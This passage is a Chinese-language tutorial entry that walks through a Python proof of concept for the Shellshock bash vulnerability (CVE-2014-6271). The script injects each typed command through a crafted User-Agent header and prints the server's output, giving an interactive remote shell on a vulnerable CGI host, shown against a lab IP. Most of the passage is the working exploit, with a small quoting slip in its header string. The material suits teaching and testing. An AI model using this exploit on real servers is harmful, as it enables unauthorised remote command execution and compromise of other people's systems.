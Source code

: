 # 用例 1: CVE-2014-6271

下面这段 Python 写的 Poc 的代码非常的酷(屌哒哒),用户根本感觉不到发生了什么事情. 这个 Poc 执行后就和系统的命令终端一样,不过这个 Poc 它的目的却与系统的不同.这个 Poc 会修改浏览器的 User-Agent 信息,然后不停的向攻击主机发送一个恶意的指令(这里是执行某个特定的命令).

下面这段代码封装了一个无限循环,通过 raw_input 获取用户输入的终止标记，最后提交请求,从下面的这段代码你可以看到 如何去完成一个 HTTP 请求以及如何修改 User-Agent 的内容：

```py
#!/usr/bin/python
import sys, urllib2    #导入需要使用的模块

if len(sys.argv) != 2:    # 检查输入命令的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 把测试的 URL 输出显示出来
print "[+] Attempting Shell_Shock - Make sure to type full path"

while True:        # 通过 raw_input 来获取用户输入的值,如果是"~$"就停止执行 
  command=raw_input("~$ ")
  opener=urllib2.build_opener()        # 修改默认的请求头部,把修改后的 User-Agent 包含进去
  opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ' /bin/bash -c "'+command+'"')]
  try:                    # 使用 Try/Except 进行错误处理
    response=opener.open(URL)    #提交请求并且显示响应结果
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e 
```

下面的图片是这个脚本执行后的截图,正在测试 ip 地址为[`192.168.56.101`](http://192.168.56.101) 的系统,你可以很清晰的看到执行之后会生成一个和真实命令终端几乎是一样的． 大家其实可以看到这个脚本只是对测试系统发送了一个 HTTP 请求.其他的什么也没有 做.不过最后一张图展示了具体的细节部分:

![shell1](img/0x131.png)

![shell2](img/0x132.png)